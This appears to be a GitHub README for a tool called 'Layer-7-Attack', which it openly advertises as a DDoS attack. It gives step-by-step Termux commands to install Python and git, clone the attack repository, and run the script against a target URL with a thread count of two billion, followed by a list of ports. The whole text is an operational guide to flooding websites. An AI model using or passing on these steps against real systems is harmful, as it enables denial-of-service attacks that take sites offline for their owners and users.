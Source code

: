 # Layer-7-Attack
Layer 7 Attack For DDOS

~$ pkg install python <br>
~$ pkg install git <br>
~$ git clone https://github.com/MusH4ck007/Layer-7-Attack L7a <br>
~$ cd L7a <br>
~$ python2 l7a.py -s http://target.com -t 2000000000
~$ port 55901 , 55999 , 44405 , 80
